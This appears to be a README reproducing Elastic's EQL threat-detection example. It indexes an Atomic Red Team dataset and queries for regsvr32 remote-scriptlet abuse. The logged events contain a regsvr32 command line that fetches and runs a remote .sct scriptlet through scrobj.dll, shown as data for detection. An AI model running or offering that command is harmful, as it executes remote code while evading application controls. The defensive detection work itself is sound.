 ### Example: Detect threats with EQL

See [Example: Detect threats with EQL](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-ex-threat-detection.html)
See [EQL syntax reference](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/eql-syntax.html)

#### Setup

To get started:

1. Create an [index template](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/index-templates.html) with [data stream enabled](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/set-up-a-data-stream.html#create-index-template)

```json

PUT /_index_template/my-data-stream-template
{
  "index_patterns": [ "my-data-stream*" ],
  "data_stream": { },
  "priority": 500
}

```

2. Use the [bulk API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/docs-bulk.html) to index the data to a matching stream:

```json

curl -XPOST "localhost:9200/my-data-stream/_bulk?pretty&refresh" -s -u elastic:changeme -H 'Content-Type: application/x-ndjson' --data-binary "@dataset/normalized-T1117-AtomicRed-regsvr32.json"

```

3. Use the [cat indices API](https://www.elastic.co/guide/en/elasticsearch/reference/7.17/cat-indices.html) to verify the data was indexed:

```json

GET /_cat/indices/my-data-stream?v=true&h=health,status,index,docs.count

```

#### Get a count of regsvr32 events

```json

GET /my-data-stream/_eql/search?filter_path=-hits.events    
{
  "query": """
    any where process.name == "regsvr32.exe"                
  """,
  "size": 200                                               
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 143,
      "relation" : "eq"
    }
  }
}

```

</details>


#### Check for command line artifacts

```json

GET my-data-stream/_eql/search?filter_path=hits.events
{
  "query": """
    any where process.name == "regsvr32.exe" and  process.command_line.keyword !=null
  """,
  "size": 200
}

```

<details>
  <summary>Response:</summary>

```json

{
  "hits" : {
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "9v9YxocBJz9yVPk--OPB",
        "_source" : {
          "process" : {
            "parent" : {
              "name" : "cmd.exe",
              "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable" : """C:\Windows\System32\cmd.exe"""
            },
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line" : "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable" : """C:\Windows\System32\regsvr32.exe""",
            "ppid" : 2652
          },
          "logon_id" : 217055,
          "@timestamp" : 131883573237130000,
          "event" : {
            "category" : "process",
            "type" : "creation"
          },
          "user" : {
            "full_name" : "bob",
            "domain" : "ART-DESKTOP",
            "id" : """ART-DESKTOP\bob"""
          }
        }
      }
    ]
  }
}

```

</details>

#### Check for malicious script loads

Check if regsvr32.exe later loads the scrobj.dll library:

```json

GET /my-data-stream/_eql/search
{
  "query": """
    any where process.name == "regsvr32.exe"  and dll.name == "scrobj.dll"              
  """
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 1,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "events" : [
      {
        "_index" : ".ds-my-data-stream-2023.04.28-000001",
        "_id" : "Fv9YxocBJz9yVPk--OTC",
        "_source" : {
          "process" : {
            "name" : "regsvr32.exe",
            "pid" : 2012,
            "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable" : """C:\Windows\System32\regsvr32.exe"""
          },
          "dll" : {
            "path" : """C:\Windows\System32\scrobj.dll""",
            "name" : "scrobj.dll"
          },
          "@timestamp" : 131883573237450016,
          "event" : {
            "category" : "library"
          }
        }
      }
    ]
  }
}

```

</details>

#### Determine the likelihood of success

heck for the following series of events:

1. A regsvr32.exe process
2. A load of the scrobj.dll library by the same process
3. Any network event by the same process

```json

GET /my-data-stream/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe" ]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}

```

<details>
  <summary>Response:</summary>

```json

{
  "is_partial" : false,
  "is_running" : false,
  "took" : 34,
  "timed_out" : false,
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "sequences" : [
      {
        "join_keys" : [
          2012
        ],
        "events" : [
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "9v9YxocBJz9yVPk--OPB",
            "_source" : {
              "process" : {
                "parent" : {
                  "name" : "cmd.exe",
                  "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable" : """C:\Windows\System32\cmd.exe"""
                },
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line" : "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable" : """C:\Windows\System32\regsvr32.exe""",
                "ppid" : 2652
              },
              "logon_id" : 217055,
              "@timestamp" : 131883573237130000,
              "event" : {
                "category" : "process",
                "type" : "creation"
              },
              "user" : {
                "full_name" : "bob",
                "domain" : "ART-DESKTOP",
                "id" : """ART-DESKTOP\bob"""
              }
            }
          },
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "Fv9YxocBJz9yVPk--OTC",
            "_source" : {
              "process" : {
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable" : """C:\Windows\System32\regsvr32.exe"""
              },
              "dll" : {
                "path" : """C:\Windows\System32\scrobj.dll""",
                "name" : "scrobj.dll"
              },
              "@timestamp" : 131883573237450016,
              "event" : {
                "category" : "library"
              }
            }
          },
          {
            "_index" : ".ds-my-data-stream-2023.04.28-000001",
            "_id" : "hP9YxocBJz9yVPk--OTC",
            "_source" : {
              "process" : {
                "name" : "regsvr32.exe",
                "pid" : 2012,
                "entity_id" : "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable" : """C:\Windows\System32\regsvr32.exe"""
              },
              "destination" : {
                "address" : "151.101.48.133",
                "port" : "443"
              },
              "source" : {
                "address" : "192.168.162.134",
                "port" : "50505"
              },
              "network" : {
                "direction" : "outbound",
                "protocol" : "tcp"
              },
              "@timestamp" : 131883573238680000,
              "event" : {
                "category" : "network"
              },
              "user" : {
                "full_name" : "bob",
                "domain" : "ART-DESKTOP",
                "id" : """ART-DESKTOP\bob"""
              }
            }
          }
        ]
      }
    ]
  }
}

```

</details>


